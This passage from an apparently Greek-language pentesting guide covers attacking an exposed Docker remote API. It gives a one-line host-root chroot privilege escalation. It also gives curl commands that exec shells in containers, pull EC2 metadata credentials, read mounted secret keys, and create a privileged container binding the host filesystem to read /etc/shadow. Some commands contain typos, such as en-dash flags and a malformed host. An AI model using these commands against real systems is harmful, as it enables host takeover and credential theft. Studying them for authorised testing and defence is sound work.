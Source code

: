 ```bash
containerd:
Version:          1.2.6
GitCommit:        894b81a4b802e4eb2a91d1ce216b8817763c29fb
runc:
Version:          1.0.0-rc8
GitCommit:        425e105d5a03fabd737a126ad93d62a9eeede87f
docker-init:
Version:          0.18.0
GitCommit:        fec3683
```
Αν μπορείτε να **επικοινωνήσετε με το απομακρυσμένο docker API με την εντολή `docker`** μπορείτε να **εκτελέσετε** οποιαδήποτε από τις **docker** [**εντολές που έχουν σχολιαστεί προηγουμένως**](2375-pentesting-docker.md#basic-commands) για να αλληλεπιδράσετε με την υπηρεσία.

{% hint style="info" %}
Μπορείτε να `export DOCKER_HOST="tcp://localhost:2375"` και να **αποφύγετε** τη χρήση της παραμέτρου `-H` με την εντολή docker
{% endhint %}

**Γρήγορη κλιμάκωση προνομίων**
```bash
docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
```
**Curl**

Μερικές φορές θα δείτε το **2376** ενεργό για το **TLS** endpoint. Δεν έχω καταφέρει να συνδεθώ σε αυτό με τον docker client, αλλά είναι δυνατόν να το κάνετε με το curl.
```bash
#List containers
curl –insecure https://tlsopen.docker.socket:2376/containers/json | jq
#List processes inside a container
curl –insecure https://tlsopen.docker.socket:2376/containers/f9cecac404b01a67e38c6b4111050c86bbb53d375f9cca38fa73ec28cc92c668/top | jq
#Set up and exec job to hit the metadata URL
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/blissful_engelbart/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "wget -qO- http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"]}'
#Get the output
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/4353567ff39966c4d231e936ffe612dbb06e1b7dd68a676ae1f0a9c9c0662d55/start -d '{}'
# list secrets (no secrets/swarm not set up)
curl -s –insecure https://tlsopen.docker.socket:2376/secrets | jq
#Check what is mounted
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "mount"]}'
#Get the output by starting the exec
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/7fe5c7d9c2c56c2b2e6c6a1efe1c757a6da1cd045d9b328ea9512101f72e43aa/start -d '{}'
#Cat the mounted secret
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /run/secrets/registry-key.key"]}'
#List service (If you have secrets, it’s also worth checking out services in case they are adding secrets via environment variables)
curl -s –insecure https://tls-opendocker.socket:2376/services | jq
#Creating a container that has mounted the host file system and read /etc/shadow
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket2376/containers/create?name=test -d '{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/start?name=test
```